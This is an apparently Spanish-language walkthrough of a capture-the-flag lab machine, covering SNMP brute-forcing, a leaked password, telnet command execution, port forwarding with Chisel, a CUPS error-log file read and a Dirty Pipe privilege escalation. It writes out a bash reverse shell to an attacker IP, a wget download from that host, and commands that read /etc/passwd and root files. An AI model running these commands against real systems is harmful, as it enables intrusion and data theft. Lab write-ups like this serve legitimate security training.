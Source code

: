 ## Summary

Tags: #UDP #Chisel #PortForwarding #GCC #Telnet #Linux #UDP #SNMP #Chisel #CUPS #Nmap 

- IP -> 10.10.11.107
- Ports -> TCP (23), UDP (161)
- OS ->  Linux
- Services & Applications
    - 23 -> Telnet
    - 161 -> SNMP 

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p23 ❮Target IP❯ -oN targeted
```
Solo encontramos el puerto 23 OPEN, por lo que decidimos escanear por UDP

```bash
❯ nmap -sU --top-ports 100 --open -T5 -v -n ❮Target IP❯     # Escaneo de puertos por UDP
```
Descubrimos el puerto 161 SNMP 

Ahora nos ponemos a explorar en ese puerto.
```bash
/usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt     # Diccionario del snmp a usar para Fuerza Bruta
```

```bash
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt ❮IP❯     # Sirve para hacer Fuerza Bruta al snmp y encontrar los 'community strings'
```

```bash
❯ snmwalk -c public -v2c ❮IP❯                                                     # Sirve para poder inspeccionar el puerto SNMP

	# c = Community string, 'Public' es el mas comun
	# v2c = version

❯ snmwalk -c public -v2c ❮IP❯ 1                                                   # Colocar 1 significa que empezara desde la raiz '/' y asi poder enco0ntrar mas informacion acerca del protocolo, por default empieza desde el 2
```

* El primer comando en esta ocasion nos regresa un "HTB-PRINTER"
* El segundo nos devuelve mas informacion y ahi encontramos BITS en Hexadecimal 

```bash 
❯ echo '50 40 73 73 77 30 72 64 40 ...' | xargs | xxd -ps -r               # Nos convierte la cadena de Hex a 

	# xargs = Nos pone la cadena en una sola linea
	# xxd = Nos invierte el proceso del Hex
```
Nos regresa lo siguiente: **P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i** que es una passwd

## User

Ahora nos regresamos a Telnet y probamos con esa passwd

```bash 
❯ telnet <IP> 23                             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                                     # Miramos el panel de ayuda, en ocasiones encontramos ‘exec system commands’ 
     ❯ exec id                               # Nos muestra el id en el que estamos
     ❯ exec ifconfig                         # Nos muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si podemos ejecutar comandos, podemos hacer una ReverShell de esta manera, IP del atacante y su puerto
```

```bash
❯ nc -nlvp 443                   # Nos ponemos en escucha para recibir la ReverShell
```
Ahora estamos adentro de la maquina 

* Le hacemos el tratamiento a la pseudoconsola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora podemos buscar la flag user.txt

```bash
❯ sudo -l                                                # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root
```

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
```
Pero tampoco encontramos algo 

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 
```
Encopntramos el puerto 631

```bash
❯ curl http://127.0.0.1:631                       # Para ver si hay contenido en ese puerto 
```
Nos muestra contenido de una pagina web llamada '**CUPS 1.6.1'

Nos traeremos ese puerto a nuestra maquina de atacante con Chisel
* [Chisel](https://github.com/jpillora/chisel)
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

```bash
❯ python3 -m http.server 80                          # Nos montamos un servidor http 80 para poder pasar el Chisel a la maquina victima 
```

En la maquina victima nos dirigimos al dir **/tmp** ya que el contiene permisos de lectura y escritura. Ahi ejecutamos el siguiente comando
```bash
❯ wget http://10.10.14.4/chisel                      # Para poder cargar o descargar un archivo especifico desde una IP de atacante
❯ chmod +x chisel                                    # Le damos permisos de ejecucion a Chisel
```

```bash
❯ ./chisel server --reverse -p 1234          # Server 'Maquina de atacante'
❯ ./chisel client 10.10.14.4:1234 R:631:127.0.0.1:631 # Cliente 'Maquina victima'
```
Ahora podemos ingresar de forma local a nuestro **Localhost:631**, en donde podemos irar una web. 

```bash
❯ searchsploit cups                # Para buscar un exploit
```

Buscamos en Google
* [CUPS-Explot](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb)
Si filtramos por **exec**, podemos ver que es lo que ejecuta el exploit. Ecnontramos que podemos controlar el log de error

Ahora en la maquina victima hacemos lo siguiente:
```bash
❯ which cupsctl                                               # Para ver si existe ese binario
```

```bash
❯ cupsctl ErrorLog=/etc/passwd                                # Utilizando el binario, generaremos el error
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior
```

## Root

```bash
❯ cupsctl ErrorLog=/root/root.txt
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior y podremos ver la flag de root
```


---
#### Segunda forma de explotacion 

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

Ahora vamos por la flag de **root.txt**
